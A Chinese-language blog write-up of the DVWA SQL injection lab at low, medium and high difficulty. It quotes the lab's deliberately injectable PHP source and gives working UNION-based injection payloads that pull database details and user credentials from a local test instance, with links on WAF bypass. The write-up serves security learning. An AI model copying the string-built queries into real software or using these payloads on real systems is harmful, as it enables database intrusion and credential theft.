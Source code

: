 ```yaml
---
title: 代码审计
time: 2016.06.03 10:22:00
layout: post
tags:
- 渗透
- DVWA
- SQL injection
excerpt: 通过DVWA学习SQL注入
    
---
```

# SQL injectin
## low
### 目标
窃取到admin的密码
### 源码
```
php
<?php 

if( isset( $_REQUEST[ 'Submit' ] ) ) { 
    // Get input 
    $id = $_REQUEST[ 'id' ]; 

    // Check database 
    $query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';"; 
    $result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' ); 

    // Get results 
    $num = mysql_numrows( $result ); 
    $i   = 0; 
    while( $i < $num ) { 
        // Get values 
        $first = mysql_result( $result, $i, "first_name" ); 
        $last  = mysql_result( $result, $i, "last_name" ); 

        // Feedback for end user 
        echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>"; 

        // Increase loop count 
        $i++; 
    } 

    mysql_close(); 
	} 

	?> 

```

$_REQUEST的官方说明如下：$_REQUEST — HTTP Request 变量默认情况下包含了 
$_GET，$_POST 和 $_COOKIE 的数组。

也就是说，再不关心是get过来的还是post，总之要取得某一个键的值，就用$_REQUEST就可以了。

不过$_REQUEST速度会比$_GET，$_POST稍慢点。 
### 过程
-  主要问题出现在这：$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id';";  这里的$id变量直接由 $id = $_REQUEST[ 'id' ];得到，没有进行任何过滤。
-  那么我们就可以通过输入恶意的字符串来进行sql注入。
-  首先，通过order by来确认表 http://localhost:8888/dvwa/vulnerabilities/sqli/?id=1' order by 2 -- &Submit=Submit
	拼接到代码内，$id就为 1' order by 2 --
	
	对应SQL语句就为 SELECT first_name, last_name FROM users WHERE user_id = '1' order by 2 -- '
	order 3 失败 说明是2
	
- 然后，依次进行注入即可
	
	payload：http://localhost:8888/dvwa/vulnerabilities/sqli/?id=-1' union select 1,concat_ws(char(32,58,32),user(),database(),version()) -- &Submit=Submit
	
	32 表示空格 58为： 
	![image](momomoxiaoxi.com/img/post/DVWA/1.png)
	load文件
	![image](momomoxiaoxi.com/img/post/DVWA/2.png)
	获取帐户和密码
	![image](momomoxiaoxi.com/img/post/DVWA/3.png)

## Medium
### 源码

	<?php

	if( isset( $_POST[ 'Submit' ] ) ) {
    	// Get input
    	$id = $_POST[ 'id' ];
    	$id = mysql_real_escape_string( $id );

    	// Check database
    	$query  = "SELECT first_name, last_name FROM users WHERE user_id = $id;";
    	$result = mysql_query( $query ) or die( '<pre>' . mysql_error() . '</pre>' );

    	// Get results
    	$num = mysql_numrows( $result );
    	$i   = 0;
    	while( $i < $num ) {
        	// Display values
        	$first = mysql_result( $result, $i, "first_name" );
        	$last  = mysql_result( $result, $i, "last_name" );

        	// Feedback for end user
        	echo "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";

        	// Increase loop count
        	$i++;
    	}

    	//mysql_close();
	}

	?>
### 	过程
- 这只是在low的基础上加了  $id = mysql_real_escape_string( $id );这个函数是转义sql语句中使用的字符串中的特殊字符(• \x00• \n• \r • \ • ' • " • \x1a)
- 我们仔细看发现，这里的id参数是直接引用的，并没有加任何的引号，所以get请求中id后面的所有内容，可以直接参与sql语句的构建。比如如果id的内容是id = 0 union select database(),user().那拼接到php代码中就是

	select first_name,last_name from users where user_id=0 union select database(),user()

- 然而，其是post提交的 所以，只需要输入如图payload即可
	![image](momomoxiaoxi.com/img/post/DVWA/4.png)
	![image](momomoxiaoxi.com/img/post/DVWA/5.png)
	
	绕过waf参考：
	
	[http://drops.wooyun.org/tips/968](http://drops.wooyun.org/tips/968)
	
	[http://drops.wooyun.org/tips/7883](http://drops.wooyun.org/tips/7883)

## High
### 源码
session：![image](momomoxiaoxi.com/img/post/DVWA/6.png)

	<?php

	if( isset( $_SESSION [ 'id' ] ) ) {
		// Get input
		$id = $_SESSION[ 'id' ];

		// Check database
		$query  = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
		$result = mysql_query( $query ) or die( '<pre>Something went wrong.</pre>' );

		// Get results
		$num = mysql_numrows( $result );
		$i   = 0;
		while( $i < $num ) {
			// Get values
			$first = mysql_result( $result, $i, "first_name" );
			$last  = mysql_result( $result, $i, "last_name" );

			// Feedback for end user
			$html .= "<pre>ID: {$id}<br />First name: {$first}<br />Surname: {$last}</pre>";

			// Increase loop count
			$i++;
		}

		mysql_close();
	}

	?>
### 过程
只需要在session界面注入即可
![image](momomoxiaoxi.com/img/post/DVWA/7.png)
![image](momomoxiaoxi.com/img/post/DVWA/8.png)

